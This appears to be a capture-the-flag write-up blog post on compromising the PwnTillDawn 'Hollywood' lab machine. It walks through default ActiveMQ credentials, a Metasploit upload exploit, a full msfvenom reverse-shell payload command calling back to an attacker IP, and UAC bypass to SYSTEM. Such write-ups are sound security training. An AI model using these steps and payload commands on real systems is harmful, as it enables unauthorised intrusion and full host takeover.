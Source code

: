 ```yaml
---
title: Hollywood Writeup PwnTillDawn
author: r0b0tG4nG
date: 2021-11-27 01:33:00 +0000
categories: [Blogging, PwnTillDawn]
tags: [writeups, tomcat, activemq, msfconsole]
math: true
mermaid: true
---
```


(image info)

**> Information Gathering**<br>
The Default nmap scan showed many active ports on the target. We can see some major ports like `21 (ftp), 25 (smtp), 80 (http), 110 (pop3) 445 (smb), 8080 (tomcat) & 8161 (activemq)`. <br>

`xampp` was found running on the default port 80, directory bruteforcing this page did not yield any results.<br>
(80 image)<br> 

Apache tomcat was setup on port 8080 with `host-manager` login disallowed and the default tomcat credentials did not work on `manager app`. <br>
(8080 image)<br>

Digging deeper on port 8161, we found apache activemq running.<br>
(activemq image)<br>

The first thing i always do is to try the default login creds on webapps. I tried to login with the default username and password `admin:admin` on activemq just like we did on tomcat.<br>
(login  image)<br>

Luckily for us, the default `admin:admin` worked and we logged in succesfully.<br>
(activemq dashboard)<br>

On the admin dashboard, the version of activemq rnning on the taret is `5.11.1`. We performed a quick google to find any know exploit.<br>
(google image)<br>

We found a approved exploit from <a href="https://www.rapid7.com/db/modules/exploit/windows/http/apache_activemq_traversal_upload/">rapid7</a>. <br>
(image exploit)<br>

Load this module into `msfconsole`, setup the required module options for this exploit. `RHOST`, `RPORT`, `USERNAME`, `PASSWORD` & `LHOST`. Without these module options setup, the exploit will fail to execute.<br>
(image msf)<br>

All module options set?? then launch an attack using either `run` or `exploit` command in `msfconsole`. If successful, we should spawn a shell on the target.<br>
(shell) <br>

**> Post Exploitation**<br>

Winpeas and other tools did not provide me with any good information. So i decided to create a staged payload using `msfvenom`. To create a payload, use this `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.66.66.78 LPORT=4444 -f exe -o test.exe`<br>
(msfvenom image)

Then transfered this to the target, setup another msfconsole listerner then executed the `test.exe` on the target.<br>
(msfconsole listerner)<br>

We should have another session in the new `msfconsole` listerner. Lets background this session using the command `bg` or `background`. Load `msfconsole` post exploitation module by typing `use post/multi/recon/local_exploot_suggester`. Once the the module is loaded, set the session to your current session using `set session (session number)` and type run.<br>
(post exploit)<br>

After waiting for sometime for the results of the post module, we realized we could bypass `User Account Control` to become `NT AUTHORITY\SYSTEM`. To do this, we need to load the module `exploit/windows/local/bypassuac_eventvwr`, set `session` and `lhost` then execute the exploit again using either `run` or `exploit`.<br>
(exploit bypass)<br>

This module will bypass` Windows UAC` by hijacking a special key in the `Registry` under the current user hive, and inserting a custom command that will get invoked when the `Windows Event Viewer` is launched. We have successfuly hijacked `C:\Windows\System32\eventvwr.exe` on the target But we are still not administrator. So we will use the `getsystem` command. This comand will use a number of different techniques in attempt to gain SYSTEM level privileges on the target<br>
(get system)<br>

The technique worked and we are `NT AUTHORITY\SYSTEM` though the `Named Pipe Impersonation` technique. We have fully compromised this target.<br>
(shell img)<br>


Referrence: <a href="https://online.pwntilldawn.com/">PwnTillDawn Online battlefield</a>